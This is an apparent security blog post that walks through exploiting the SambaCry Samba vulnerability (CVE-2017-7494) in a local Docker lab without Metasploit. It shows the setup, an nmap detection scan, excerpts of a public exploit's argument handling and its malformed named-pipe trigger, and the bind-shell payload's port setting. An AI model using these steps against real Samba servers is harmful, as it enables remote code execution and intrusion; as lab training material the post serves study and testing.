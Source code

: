 ```yaml
---
layout: post
title:  "EternalRed aka Sambacry without Metasploit"
date:   2020-05-31 18:05:55 +0300
image:  EternalBlue/title.png
author-name: strik1r
tags:   [EternalRed, Without Metasploit, Exploit modification, Sambacry]
---
```


<h2>Prologue:</h2>
In this blog post we are going to explore using exploits without Metasploit at all. After EternalBlue, our next exploit will be EternalRed aka Sambacry.

<h3> Environment Setup </h3>
The easiest way to find an environment to test on, is to set up the docker machine with the instruction from the exploit page: https://github.com/opsxcq/exploit-CVE-2017-7494
But first we need to install docker. I will just show you all the commands I used to make it work on my KALI environment. The last line with hello world is just to test that everything worked:
```
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
echo 'deb [arch=amd64] https://download.docker.com/linux/debian buster stable' | sudo tee /etc/apt/sources.list.d/docker.list
sudo apt-get update
sudo apt-get remove docker docker-engine docker.io
sudo apt-get install docker-ce
sudo docker run hello-world
```

Then downloading and starting the vulnerable machine. I added some more open ports:

```
docker run --rm -it \
       -p 137-139:137-139 \
       -p 445:445 -p 6699:6699 \
	   -p 4444:4444 -p 5555:5555 \
       vulnerables/cve-2017-7494
```
If you get the message : Cannot connect to the Docker daemon... try to start docker first.

```
service docker start
```

In case you would like to conect to the docker machine you need to do two things. First determinate the container ID then connect to the container.

```
docker ps
docker exec -ti id bash
```

![connectToContainer](/img/EternalRed/connectToContainer.png)

<h2>Detection</h2>

So we want to detect if the taget is vulnerable to Sambacry. We will use Nmap for this.

```
nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 127.0.0.1
```

![detection](/img/EternalRed/detect.png)

Oh we are vulnerable. I set the target ip to 127.0.0.1 because the docker command we used to start the box binds the port 445 to our local port 445. So we actually targeted the vulnerable box, not our attacker machine.

<h2>The Exploit</h2>

First let's grab the exploit and install everything needed.

```
git clone https://github.com/opsxcq/exploit-CVE-2017-7494
cd exploit-CVE-2017-7494
pip install -r requirements.txt
```

Now we have all setup. But before running it, Let's check the code. Starting with exploit.py we should go down until the __main__ function. Here is where are code execution starts. 

```
    ap = ArgumentParser(description="Sambacry (CVE-2017-7494) exploit by opsxcq")
    ap.add_argument("-t", "--target", required=True, help="Target's hostname")
    ap.add_argument("-e", "--executable", required=True, help="Executable/Payload file to use")
    ap.add_argument("-s", "--remoteshare", required=True, help="Executable/Payload shared folder to use")
    ap.add_argument("-r", "--remotepath", required=True, help="Executable/Payload path on remote file system")
    ap.add_argument("-u", "--user", required=False, help="Samba username (optional")
    ap.add_argument("-p", "--password", required=False, help="Samba password (optional)")
	ap.add_argument("-P", "--remoteshellport", required=False, help="Connect to a shell running in the remote host after exploitation")
```

This block is the parameters block. We can see what is needed to run the exploit. We have a remote shell port option too. This is in case we want the code to automatically connect to the bind shell which runs on the target.
Under that we can see a port already set up to 445. We can change it but SMB will probably be on port 445 so let's leave it for now. Now let's go to the function named exploit. 
First we open the smb connection to the target. Then we try to upload the file given in the parameter. Then we execute the exploit.

<h2>Exploit execution<h2>
This is the actual exploitation part. So far only the exploit code has been uploaded. If everything goes right, this few line will execute the uploaded code. The main idea is, that Samba can load libraries from shared locations. 
This information will be handy because we know now that only special files can be uploaded and executed. Now, for the execution to work, we need the full path of the uploaded payload. This is the point where in case the payload does not seem to execute,
you need to make adjustments. The actual malformed request should not be changed just the parameters. First let's not update the code here, but give ourself a better view on what's actually happening by writhing the actual malformed request to console.
Modified code:

```
    triggerModule = r'ncacn_np:%s[\pipe\%s]' % (target, remotepath)
	print("The exploit code section looks like this:")
	print(triggerModule)
    rpcTransport = transport.DCERPCTransportFactory(triggerModule)
    dce = rpcTransport.get_dce_rpc()
    triggerThread = Thread(target=dceTrigger, args=(dce,))
    triggerThread.daemon = True
    triggerThread.start()
```

After this we only have the handler. In case our payload is a bind shell, this handler will conect to it. We can delete this if we want to connect with a different methode.

<h2>Payload<h2>
Let's check the payload givven for this exploit. This is a bind shell written in C. Looking at the code of bindshell-samba.c we can see a nicely commented code. Without going into much details, the only thing we need to take a look is where the port is set.

```
    hostAddr.sin_family = AF_INET;
    hostAddr.sin_port = htons(6699);
    hostAddr.sin_addr.s_addr = htonl(INADDR_ANY);
```

We can see that the listening port is set to 6699. we can change it anytime. 